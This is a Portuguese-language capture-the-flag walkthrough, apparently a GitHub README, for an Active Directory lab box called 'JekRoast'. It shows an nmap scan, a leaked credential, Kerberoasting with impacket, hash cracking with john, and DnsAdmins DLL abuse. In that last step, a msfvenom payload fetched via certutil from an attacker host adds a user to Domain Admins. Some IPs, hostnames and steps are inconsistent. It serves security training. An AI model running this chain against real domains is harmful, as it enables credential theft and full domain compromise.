



# JekRoast

É um desafio com várias etapas, onde o objetivo é obter acesso ao sistema e obter a flag. Passando por diversas etapas de enumeração e exploração.

# Walkthrough

## Nmap

```bash

$ nmap -sC -sV -oA nmap 10.0.0.206
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-06 14:16 -03
Nmap scan report for 10.0.0.206
Host is up (0.0079s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-07 01:16:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: XTR.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: XTR.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: XTR
|   NetBIOS_Domain_Name: XTR
|   NetBIOS_Computer_Name: EXTREME-DC
|   DNS_Domain_Name: XTR.local
|   DNS_Computer_Name: Extreme-DC.XTR.local
|   DNS_Tree_Name: XTR.local
|   Product_Version: 10.0.20348
|_  System_Time: 2024-02-07T01:19:02+00:00
|_ssl-date: 2024-02-07T01:19:43+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=Extreme-DC.XTR.local
| Not valid before: 2024-02-05T02:26:51
|_Not valid after:  2024-08-06T02:26:51
8080/tcp open  http          Apache httpd 2.4.55 ((Win64))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.55 (Win64)
|_http-open-proxy: Proxy might be redirecting requests
|_http-generator: Jekyll v4.3.3
|_http-title: ExtremeX | ExtremeX is a blog about extreme sports and the peo...
Service Info: Host: EXTREME-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-07T01:19:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: EXTREME-DC, NetBIOS user: <unknown>, NetBIOS MAC: fa:16:3e:f1:70:a9 (unknown)
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.79 seconds


```

## Web Page




## Github





```bash

cmdkey /add:github.com/tito /user:465-2467 /pass:xbox360

```


# Local.txt

```bash
*Evil-WinRM* PS C:\Users\465-2467\Desktop> type local.txt
*Evil-WinRM* PS C:\Users\465-2467\Desktop> 

```


# Privilege Escalation

Antes de escalar pribilégios, precisamos fazer uma movimentação lateral para obter as credenciais do usuário com permissões.

Kerberos é um protocolo dependente de tempo, então precisamos ajustar o tempo do sistema para obter os tickets.

```bash

sudo net time set set -S 10.0.2.28
```

Ataque Kerberoasting

```bash

$ impacket-GetUserSPNs.py -request -dc-ip 10.0.1.32 XTR.local 465-2467:xbox360 -outputfile spn.txt

```

Após conseguir o ticket, podemos tentar quebrar a senha.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt  spn.txt                                  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rose1994         (?)     
1g 0:00:00:00 DONE (2024-02-06 23:51) 25.00g/s 2508Kp/s 2508Kc/s 2508KC/s 02022002..pacers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Portanto, agora podemos usar as credenciais para obter acesso ao sistema.

E descobrir que esse usuário tem permissões de `Domain Admins`, e para isso podemos fazer um ataque de DLL Hijacking.


1. Gerar um DLL com msfvenom

```bash

msfvenom -p windows/x64/exec cmd='net group "Domain Admins" /add 465-8099' -f dll -o adduser.dll
```

2. Download da DLL no servidor AD

```bash

certutil -f -urlcache http://10.1.0.66:8081/adduser.dll adduser.dll
```

3. Executar o ataque, adicionando a dll ao servidor de DNS

```bash

dnscmd exteme-dc /config /serverlevelplugindll c:\temp\adduser.dll                
```

4. Desta forma, o ataque é bem sucedido e o usuário é adicionado ao grupo `Domain Admins`
